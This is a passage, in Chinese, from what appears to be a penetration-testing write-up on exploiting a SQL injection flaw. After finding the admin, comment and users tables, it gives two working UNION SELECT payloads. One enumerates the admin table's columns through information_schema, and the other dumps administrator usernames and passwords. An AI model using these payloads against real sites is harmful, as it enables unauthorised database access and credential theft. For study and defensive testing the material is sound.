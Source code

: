 查询出来有三张表，分别为 `admin、comment、users`
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614784016018.png)

我们的目的是查询出管理员的用户名密码，所以直接对 `admin` 表进行查询

接下来就是查询字段
`-t%'union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name=0x61646D696E%23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614784189569.png)

字段为 `admin_id、admin_username、admin_password`

查询出 `admin_username、admin_password` 字段的内容

`-t%'union select 1,2,group_concat(admin_username,0x7E,admin_password),4 from admin %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614784348806.png)
